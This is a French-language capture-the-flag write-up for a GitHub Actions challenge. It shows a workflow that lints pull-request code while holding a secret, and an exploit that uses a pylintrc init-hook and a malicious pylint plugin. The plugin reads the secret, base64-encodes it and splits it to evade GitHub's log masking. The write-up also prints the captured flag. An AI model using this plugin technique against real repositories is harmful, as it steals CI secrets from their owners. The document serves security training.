


# D-8 GitHub Workflows - Egypt

## Intro

Pour cette track, un repo Github read-only avec des [Github Actions workflows](https://docs.github.com/en/actions).
Chaque workflow constitue un des challenges de la track et ont tous comme but d'extraire le flag des Secrets du workflow et suit généralement l'ordre suivant:

1. Trouver comment activer le workflow
2. Trouver la faille dans le worflow
3. Executer l'exploit.

Note: Github cache les secrets et certaines transformations connue (ex. hex, base64) des logs par défault.

# Challenge

Le challenge de la track D8:

```yaml
name: Egypt
on:
  pull_request:
    types:
      - opened
      - synchronize
      - edited

jobs:
  cairo:
    if: contains(github.event.pull_request.title, '[Lint]')
    timeout-minutes: 5
    runs-on: ubuntu-latest
    permissions: 
      contents: read
      pull-requests: read
    env:
      FLAG: ${{ secrets.FLAG_EGYPT }}
      GH_TOKEN: ${{ secrets.GITHUB_TOKEN }}
    steps:
      - name: Checkout
        uses: actions/checkout@v4
      - name: Checkout
        uses: actions/checkout@v4
        with: 
          ref: ${{ github.event.pull_request.head.sha }}
          path: pr
      - name: Set up Python
        uses: actions/setup-python@v5
        with:
          python-version: 3.12
      - name: Install dependencies
        run: pip install pylint
      - name: Set config from upstream
        run: cp .pylintrc pr/.pylintrc
      - name: Lint with pylint
        id: lint
        continue-on-error: true
        working-directory: pr
        run: |
          pylint . 
```

### Trouver comment activer le workflow

Ce workflow est lancé sur les PR ayant '[Lint]' dans leur titre.

```yaml
on:
  pull_request:
    types:
      - opened # Lancé lorsqu'on crée une nouvelle PR
      - synchronize # Lancé lorsqu'un nouveau commit est ajouté a la PR
      - edited # Lancé lorsqu'un changement a la PR est effectué

...

 if: contains(github.event.pull_request.title, '[Lint]')
```




### Exploit
Ce workflow utilise PyLint pour analyser le code Python selon une liste de règles. On ne peut changer directement le fichier de configurations puisque le workflow copie celui provenant du repo original (en lecture seule).

```
cp .pylintrc pr/.pylintrc
```

Par contre, en lisant la [documentation de PyLint](https://pylint.pycqa.org/en/latest/user_guide/usage/run.html#command-line-options), on peut voir que cet outils supporte plusieurs fichier de configuration. De plus, PyLint support d'ajouter des extensions en Python.

`pylintrc`
```toml
[MASTER]

# Permet d'importer des modules du fichier courant. Les variables d'environments ne sont pas loader a cette étape
init-hook='import sys; import os; print(os.listdir("..")); sys.path.append(".")'
load-plugins=my_plugin
```

`my_plugin.py`
```py
import os
import base64
import sys

def run_sh_code(command):
    result = os.popen(command).read()
    return result

def register(linter):
    flag = os.getenv('FLAG', 'none')
    b64_flag = base64.b64encode(flag.encode()).decode()
    # Split le flag en 2 pour éviter que Github ne le censure
    print("Flag: ", b64_flag[0:len(b64_flag)//2], " | ", b64_flag[(len(b64_flag)//2)-4:])

```



---
## Flag:

`flag-egypt-9312131bb234`